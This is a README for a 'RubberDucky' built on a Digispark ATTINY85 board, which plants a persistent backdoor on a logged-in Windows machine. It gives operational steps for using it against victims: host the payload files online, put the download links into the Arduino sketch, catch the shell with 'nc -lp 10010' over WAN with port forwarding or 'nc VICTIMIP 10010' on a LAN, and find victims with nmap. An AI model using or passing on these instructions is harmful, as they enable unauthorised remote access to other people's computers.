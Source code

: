 # RubberDucky
The RubberDucky is a SoC that creates a persistent backdoor onto the victim's machine (Windows). The attacker only needs to plug in the SoC into a logged in device and the attack will be performed within 10 seconds. The attack uses a Digispark ATTINY85 board. To setup the Rubberducky, first upload the files in the "Downloads" folder to a web server or a file hosting service such as Dropbox or Google Drive. The code can be opened using the Arduino IDE. In the code RubberDucky.ino replace "REPLACE with download link" by the download link of the respective file. 
The attack is by default on WAN. For the attack to work, the attacker needs to enable port forwarding in his router with port 10010. On the attacker machine, run the command "nc -lp 10010".
To do an attack on LAN, uncomment the respective line in RubberDucky.ino. On the attacker machine, run the command "nc VICTIMIP 10010". The victim Ip can be found using nmap. Look for hosts with port 10010 open.
